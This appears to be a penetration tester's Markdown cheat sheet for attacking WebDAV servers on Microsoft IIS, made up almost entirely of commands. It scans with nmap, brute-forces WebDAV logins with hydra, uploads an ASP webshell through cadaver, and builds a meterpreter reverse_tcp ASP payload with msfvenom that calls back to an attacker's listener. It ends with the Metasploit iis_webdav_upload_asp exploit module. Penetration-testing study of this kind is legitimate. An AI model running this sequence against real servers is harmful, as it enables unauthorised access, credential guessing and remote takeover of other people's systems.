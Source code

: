 # HTTP

## WebDAV
- WebDAV typically runs on Apache on MS IIS.
  - Manage files on remote Web server.
  - Requires credentials.

- "DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable."

- "cadaver is a command-line WebDAV client, with support for file upload, download..."

```
nmap -Pn -sV -p80 --script=http-webdav-scan,http-enum <ip>
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> http-get /webdav
```

```
curl http://<ip>/webdav/ -u <username>:<password>
```

```
davtest -url http://<ip>/webdav -auth <username>:<password>
```

```
cadaver http://<ip>/webdav
Username: <username>
Password: <password>

dav:/webdav/> help
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
==> A webshell is a shell that you can access through the Web. It is NOT a reverse shell.

http://<ip>/webdav/webshell.asp
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > reverse.asp

msf > use /multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST <ip>
msf > set LPORT <port>
msf > exploit

http://<ip>/webdav/reverse.asp
```

```
use auxiliary/scanner/http/webdav_scanner

use exploit/windows/iis/iis_webdav_upload_asp
set payload windows/meterpreter/reverse_tcp
set HttpUsername <username>
set HttpPassword <password>
set PATH /webdav/reverse.asp
```
